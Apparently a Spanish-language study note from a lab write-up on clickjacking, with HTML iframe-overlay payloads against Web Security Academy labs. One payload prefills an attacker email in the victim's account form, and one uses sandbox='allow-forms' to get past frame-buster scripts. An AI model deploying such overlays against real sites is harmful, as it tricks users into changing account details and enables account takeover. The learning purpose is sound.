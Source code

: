 # Clickjacking

## Basic clickjacking with CSRF token protection

Un iframe permite cargar una pagina encima de otra de aqui proviene esta vulnerabilidad que se engaña al usuario a que haga clic en 
un lugar donde no deberia haciendo el iframe trasparente. SOlo funciona si las paginas permiten iframes si los iframe are allow( frame en ingles els cuadro marco)

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="AQUI PON LA URL LA CUAL SE VA PONER ENSIMA EL DIV></iframe>

```
## Clickjacking with form input data prefilled from a URL parameter

Es basicamente lo mismo del ejemplo pero  cargando datos para cambiar el email 

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div>CLICK ME</div>
<iframe src="https://0a96006303e0a89fc01f20c700340002.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>
```

## Clickjacking with a frame buster script

Se crearon protecciones para evitar esto una de ellas es la cabecera X-Frame-Options:

>The server-side header X-Frame-Options can permit or forbid displaying the page inside a frame.

It must be sent exactly as HTTP-header: the browser will ignore it if found in HTML <meta> tag. So, <meta http-equiv="X-Frame-Options"...> won’t do anything.

The header may have 3 values:

DENY
Never ever show the page inside a frame.

Otra medida de seguridad es el Sandbox attribute 

>One of the things restricted by the sandbox attribute is navigation. A sandboxed iframe may not change top.location.

> So we can add the iframe with sandbox="allow-scripts allow-forms". That would relax the restrictions, permitting scripts and forms. But we omit allow-top-navigation so that changing top.location is forbidden.


> https://javascript.info/

Para este ejemplo se uso sandbox="allow-forms" para desactivar las protecciones.

```

<style>
    iframe {
        position:relative;
        width:700px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a1b004903f71dc0c0795dd000a8006a.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>

```

